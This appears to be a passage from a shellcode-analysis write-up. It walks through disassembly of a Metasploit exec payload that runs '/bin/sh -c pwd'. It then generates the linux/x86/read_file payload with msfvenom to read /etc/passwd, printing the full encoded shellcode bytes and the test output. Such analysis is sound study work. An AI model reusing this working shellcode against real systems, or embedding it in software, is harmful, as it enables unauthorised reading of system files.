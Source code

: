 Now that the stack contains [0x00402078	0x00000000] which is effectively "pwd\0" we perform two more pushes to setup the full command that we'll send to the execve system call.

After these instructions ECX will point to [0xbffff012, 0xbffff01a, 0x00402078, 0x00000000] on the stack.
```
   0x40207c <code+60>:	push   edi                        ; pushes "-c" address
   0x40207d <code+61>:	push   ebx                        ; pushes "/bin/sh" address
   0x40207e <code+62>:	mov    ecx,esp                    ; moves pointer to stack to ecx
```

We finally make our call to execve which prints the current working directory.
```
   0x402080 <code+64>:	int    0x80                       ; calls execve
```

<a name="sample2"></a>
## Sample2: linux/x86/read_file
To generate a payload with the linux/x86/read_file payload I executed the following command to generate shellcode that could be placed into my test C program.
```
[sengen@manjaro-x86 sample2]$ msfvenom -p linux/x86/read_file fd=1 path=/etc/passwd -b '\x00' -f c
No platform was selected, choosing Msf::Module::Platform::Linux from the payload
No Arch selected, selecting Arch: x86 from the payload
Found 10 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 100 (iteration=0)
x86/shikata_ga_nai chosen with final size 100
Payload size: 100 bytes
Final size of c file: 445 bytes
unsigned char buf[] = 
"\xba\xb0\xf6\x73\xfc\xda\xc6\xd9\x74\x24\xf4\x5e\x2b\xc9\xb1"
"\x13\x83\xc6\x04\x31\x56\x0f\x03\x56\xbf\x14\x86\x17\x89\x60"
"\x6c\xe8\xf5\x90\x34\xd9\x3c\x5d\x4a\x90\x7d\xe6\x48\xa3\x81"
"\x17\xc6\x44\x08\xee\x62\x8a\x1a\x11\x93\x46\x9a\x98\x51\xe0"
"\x9e\x9a\x55\x11\x25\x9b\x55\x11\x59\x51\xd5\xa9\x58\x69\xd6"
"\xc9\xe1\x69\xd6\xc9\x15\xa7\x56\x21\xd0\xc8\xa8\x4d\xf5\x53"
"\x23\xd1\x26\xec\xaa\x66\x4b\x7b\x49\x89";
```

### Copied the shellcode to a test program and made sure it worked
```bash
[sengen@manjaro-x86 sample2]$ gcc readfile_payload.c -o readfile_payload
[sengen@manjaro-x86 sample2]$ ./readfile_payload 
Shellcode Length:  100
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/usr/bin/nologin
daemon:x:2:2:daemon:/:/usr/bin/nologin
mail:x:8:12:mail:/var/spool/mail:/usr/bin/nologin
ftp:x:14:11:ftp:/srv/ftp:/usr/bin/nologin
http:x:33:33:http:/srv/http:/usr/bin/nologin
dbus:x:81:81:dbus:/:/usr/bin/nologin
nobody:x:99:99:nobody:/:/usr/bin/nologin
systemd-journal-gateway:x:191:191:systemd-journal-gateway:/:/usr/bin/nologin
systemd-timesync:x:192:192:systemd-timesync:/:/usr/bin/nologin
systemd-network:x:193:193:systemd-network:/:/usr/bin/nologin
systemd-bus-proxy:x:194:194:systemd-bus-proxy:/:/usr/bin/nologin
systemd-resolve:x:195:195:systemd-resolve:/:/usr/bin/nologin
systemd-coredump:x:998:998:systemd Core Dumper:/:/sbin/nologin
systemd-journal-upload:x:997:997:systemd Journal Upload:/:/sbin/nologin
systemd-journal-remote:x:999:999:systemd Journal Remote:/:/sbin/nologin
uuidd:x:68:68::/:/sbin/nologin
rpc:x:32:32:Rpcbind Daemon:/dev/null:/bin/false
dnsmasq:x:996:996:dnsmasq daemon:/:/sbin/nologin
```